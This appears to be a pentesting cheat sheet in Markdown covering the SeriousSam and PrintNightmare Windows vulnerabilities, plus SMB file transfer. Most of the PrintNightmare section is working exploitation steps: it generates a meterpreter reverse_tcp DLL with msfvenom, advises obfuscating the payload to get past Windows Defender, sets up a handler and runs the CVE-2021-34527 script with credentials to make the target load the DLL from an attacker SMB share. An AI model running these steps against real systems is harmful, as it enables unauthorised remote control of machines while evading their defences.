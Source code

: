 # Pentest Guides 

## Feching files to Windows host

Linux | Windows
-------|--------
`sudo smbserver.py -smb2support -user complexia -password complexia share $(pwd)` | `\\192.168.1.1\share\$(filename)`
`sudo smbserver.py share $(pwd) -smb2support` | `\\192.168.1.1\share\$(filename)`



## Vulnerabilities - Windows

### -> SeriousSam

***Setup commands***

*Running a script on a low privilege user will cause an error, run the command below*

`Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser`


**Discovery methods**

Method | Command
-------|--------
PowerShell | `.\SeriousSam.ps1`

Link to [Github Repository](https://github.com/romarroca/SeriousSam/blob/main/serioussam.ps1)

### -> PrintNightmare

***Setup commands***

Description | Commands&Links
------------|--------
*Download virtualenv* | `sudo apt install virtualenv`
*Create virtual enviroment by sudo privileges with the command*  | `virtualenv --python=python3 yourdirectory`
*Run*  | `source yourdirectory/bin/activate`
*Git clone & Follow Instructions*  | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Install the impacket version described in github repository* | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Create meterpreter payload* | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=0000 -o reverse.dll`
*Meterpreter payload only works when windows defender disabled* | **Obfuscate the payload**

***Exploit commands***

Description | Commands&Links
------------|---------------------------------------------------------------------------------------------------
*Setup smbserver in root mode in virtual enviroment with the correct impacket version* | `smbserver.py share $(pwd) -smb2support`
*Create your multi/handler* | `multi/handler -- > set payload windows/x64/meterpeter/reverse_tcp`
*Run the script* | `python3 CVE-2021-34527.py cyberlabs.com/cyberuser:'Password'@0.0.0.0 '\\0.0.0.0\share\shell.dll`

**Discovery methods**

Method | Command
-------|--------
Script | `rpcdump.py @192.168.1.10 \| egrep MS-RPRN\|MS-PAR`


